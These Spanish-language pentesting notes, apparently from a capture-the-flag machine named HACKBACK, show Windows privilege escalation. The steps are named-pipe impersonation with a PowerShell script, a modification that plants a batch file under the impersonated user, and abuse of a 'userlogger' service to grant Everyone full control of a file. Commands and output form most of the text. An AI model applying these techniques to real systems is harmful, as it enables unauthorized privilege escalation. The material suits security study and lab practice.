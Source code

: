 ## Uso de Named Pipes

Para ello es necesario aprovecharse de una tarea CRON en la que otro usuario se atachée a un named pipe alojado del atacante, de forma que se pueda impersonar para ejecutar comandos como este

### Path

La estructura de llamada es así

```
\\.\pipe\dummypipe
```

### Explotación

En caso de ser vulnerable, el script en PowerShell de `decoder_it`, debe devolver el nombre de usuario que se ha conectado

```
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> .\pipeserverimpersonate.ps1
Waiting for connection on namedpipe:dummypipe
ImpersonateNamedPipeClient: 1
user=HACKBACK\hacker
OpenThreadToken:True
True
CreateProcessWithToken: False  1058
```

### Alteración del script

```
###we are impersonating the user, everything we do before RevertoSelf is done on behalf that user
echo "user=$user "
copy C:\Windows\System32\spool\drivers\color\rubbx.bat C:\util\scripts\spool\rubbx.bat
```

## Abuso del servicio userlogger

### Detener el servicio

```
sc stop userlogger C:\test.txt
```

### Explotación

Pasarle como argumento un fichero con dos puntos al final. Se le asignarán privilegios de lectura y escritura para cualquier usuario

```
C:\>sc start userlogger C:\test.txt:
```

```
C:\>icacls test.txt
icacls test.txt
test.txt Everyone:(F)

Successfully processed 1 files; Failed processing 0 files
```
